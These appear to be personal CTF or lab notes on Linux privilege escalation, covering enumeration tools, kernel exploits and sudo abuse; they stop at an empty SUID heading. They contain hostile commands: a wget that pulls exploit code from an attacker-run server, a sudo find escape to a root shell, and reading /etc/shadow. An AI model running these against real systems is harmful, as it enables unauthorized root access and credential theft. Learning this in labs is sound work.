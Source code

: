 


# Automated Enumeration Tools

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

# Privilege Escalation: Kernel Exploits

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.

The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.


The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

So here is what I did:
1. I found [this](https://www.exploit-db.com/exploits/37292)
2. I ran http.server using python3
3. Then wget it from my server using: `wget http://10.8.89.154:8000/privesc.c -P /tmp`
4. Then i compiled it and ran -> gave root access
5. There is a flag.txt in /home/matt


# Privilege Escalation: Sudo

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the sudo -l command.

1. sudo -l
2. sudo find . -exec /bin/sh \; -quit // (using [this](https://gtfobins.github.io/gtfobins/find/))
3. cat /etc/shadow


# Privilege Escalation: SUID
